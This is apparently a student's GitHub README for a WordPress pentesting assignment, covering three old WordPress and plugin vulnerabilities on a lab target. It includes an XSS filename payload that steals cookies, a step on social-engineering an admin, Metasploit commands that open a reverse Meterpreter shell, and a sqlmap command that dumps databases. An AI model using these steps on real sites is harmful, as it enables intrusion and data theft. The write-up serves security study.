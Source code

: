 # cis221_codepath

See branches for assignments.

# Project 7 - WordPress Pentesting

Time spent: **25** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 -- WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename 
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in the media_handle_upload function in wp-admin/includes/media.php in WordPress before 4.6.1 might allow remote attackers to inject arbitrary web script or HTML by tricking an administrator into uploading an image file that has a crafted filename. 
    - Vulnerability types: Cross-site scripting
    - Tested in version: WordPress 4.2
    - Fixed in version: WordPress 4.6.1
  - [ ] GIF Walkthrough: <img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.gif" alt="Walkthrough" style="max-width: 100%;">
  - [ ] Steps to recreate: 
    1. Confirm WordPress target host is vulnerable. WP version must be 2.5-4.6.
    2. Create an image file and insert '<img src=a onerror=alert(document.cookie)>' into the filename. This is the paylod script that will cause a javascript alert. For example, I used "marvinc0d3p4th<img src=a onerror=alert(document.cookie)>.jpg"
    3. Use social engineering to have admin of target host to upload image file as an attachment page. Even better is if you can get the admin to use the created attachment page url to embed into a post. 
<img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.png">
  - [ ] Affected source code: (https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
  
Reference: https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html


### 2. CVE-2015-4133 -- WordPress Plugin Reflex Gallery - Arbitrary File Upload (Metasploit) 
  - [ ] Summary: This module exploits an arbitrary PHP code upload in the WordPress Reflex Gallery version 3.1.3. The vulnerability allows for arbitrary file upload and remote code execution. 
    - Vulnerability types: Arbitrary file upload, remote code execution.
    - Tested in version: WordPress 4.2, ReFlex Gallery plugin 3.1.3 [reflex-gallery.3.1.3.zip](https://github.com/peelingwave/cis221_codepath/files/8492582/reflex-gallery.3.1.3.zip)
    - Fixed in version: ReFlex Gallery plugin 3.1.4
  - [ ] GIF Walkthrough: 
    ![WP_reflex_gallery_pwned](https://user-images.githubusercontent.com/98624766/163491702-53e1d5cb-5cbf-4be2-b410-b855596067fd.gif)
  - [ ] Steps to recreate: 
    1. Confirm WordPress target host is vulnerable. Reflex Gallery plugin version older than 3.1.4 must be installed and activated.
    2. Upload image into Reflex gallery plugin.
    3. In Reflex gallery settings retrieve the short code and insert it into post. 
    ![WP_reflex_gallery_pages](https://user-images.githubusercontent.com/98624766/163492792-0498b52d-a217-4414-9fbb-126535e69990.png)

    4. Run metasploit from attacker machine using the following commands:
        - sudo service postgresql start
        - sudo msfdb init
        - msfconsole
    5. in msfconsole shell, run the following commands to install the metasploit payload and create a connection with the target machine:
        - db_status
        - search Reflex #output should be: exploit/unix/webapp/wp_reflexgallery_file_upload
        - use exploit/unix/webapp/wp_reflexgallery_file_upload
        - info
        - set RHOST <url.of.target.machine>
        - set LHOST <url.of.attacker.machine>
        - exploit
    6. Meterpreter shell running, run the following commands to start a new shell inside the target machine:
        - shell
  
  - References:
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-4133


### 3. WordPress Olimometer 2.56 SQL Injection
  - [ ] Summary: WordPress Olimometer plugin versions 2.56 and below suffer from a remote SQL injection vulnerability.
    - Vulnerability types: SQLI
    - Tested in version: WP 4.2, Olimometer 2.56
    - Fixed in version: Olimometer 2.57
  - [ ] GIF Walkthrough: ![sqlmap-olimometer](https://user-images.githubusercontent.com/98624766/163496922-57763920-7a90-4562-be8e-2e5273c1307d.gif)

  - [ ] Steps to recreate: 
    1. Ensure WP 4.2 and install Olimometer 2.56 or older onto target machine and activate the plugin. [olimometer.2.56.zip](https://github.com/peelingwave/cis221_codepath/files/8492878/olimometer.2.56.zip)

    2. In Olimometer plugin settings, retrieve short code and insert into post. ![olimometer_shortcode](https://user-images.githubusercontent.com/98624766/163495767-e013ea2b-952a-477a-87d1-d1059913cd6d.png)

    3. In attacker machine run sqlmap command:
       - sqlmap -u http://path.to.target.machine/wp-content/plugins/olimometer/thermometer.php?olimometer_id=1 --dbs --threads=5 --random-agent --no-cast

  - References: https://packetstormsecurity.com/files/139921/WordPress-Olimometer-2.56-SQL-Injection.html
  
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
